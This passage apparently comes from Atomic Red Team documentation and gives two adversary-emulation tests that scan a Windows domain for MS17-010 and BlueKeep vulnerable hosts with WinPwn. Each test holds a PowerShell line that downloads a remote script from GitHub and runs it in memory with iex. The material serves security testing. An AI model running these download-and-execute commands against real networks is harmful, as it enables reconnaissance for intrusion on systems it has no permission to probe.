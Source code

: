 




<br/>
<br/>

## Atomic Test #6 - WinPwn - MS17-10
Search for MS17-10 vulnerable Windows Servers in the domain using powerSQL function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 97585b04-5be2-40e9-8c31-82157b8af2d6






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
MS17-10 -noninteractive -consoleoutput
```






<br/>
<br/>

## Atomic Test #7 - WinPwn - bluekeep
Search for bluekeep vulnerable Windows Systems in the domain using bluekeep function of WinPwn. Can take many minutes to complete (~600 seconds in testing on a small domain).

**Supported Platforms:** Windows


**auto_generated_guid:** 1cca5640-32a9-46e6-b8e0-fabbe2384a73






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
bluekeep -noninteractive -consoleoutput
```



